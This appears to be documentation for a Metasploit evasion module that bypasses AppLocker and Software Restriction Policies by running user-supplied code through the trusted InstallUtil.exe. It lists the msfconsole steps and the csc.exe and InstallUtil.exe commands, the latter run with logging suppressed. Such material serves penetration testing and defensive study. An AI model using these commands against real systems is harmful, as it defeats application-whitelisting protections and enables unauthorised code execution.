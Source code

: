 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary InstallUtil.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block InstallUtill.exe or the "Microsoft.Net" directory.

## Options

- **FILENAME** - Filename for the evasive file (default: install_util.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_install_util`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] install_util.txt stored at /root/.msf4/local/install_util.txt`
  7. `[*] Copy install_util.txt to the target`
  8. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /out:installutil.exe install_util.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  9. `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U installutil.exe` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1118/
